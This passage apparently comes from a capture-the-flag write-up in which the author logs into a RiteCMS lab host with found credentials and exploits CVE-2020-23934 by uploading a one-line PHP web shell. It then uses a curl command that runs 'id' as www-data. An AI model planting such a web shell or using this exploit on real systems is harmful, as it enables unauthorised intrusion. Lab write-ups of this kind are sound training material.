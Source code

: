 ![evidence](./static/08-login.png)

And I access using the credentials found, and I follow the steps to reproduce the `CVE-2020-23934`, and that means I have to go to the file manager :

![evidence](./static/09-ritecms-exploit.png)

And upload a new file, and I called this file `ws.php`, and it contains the following payload:
```php
<?php system($_GET['cmd']); ?>
```
And if I use the `curl` command:
```shell
$ curl "http://deliver.undiscovered.thm/files/ws.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I get the `id` response, and I can conclude that the vulnerability exists, and I can inject commands with the user `www-data`.

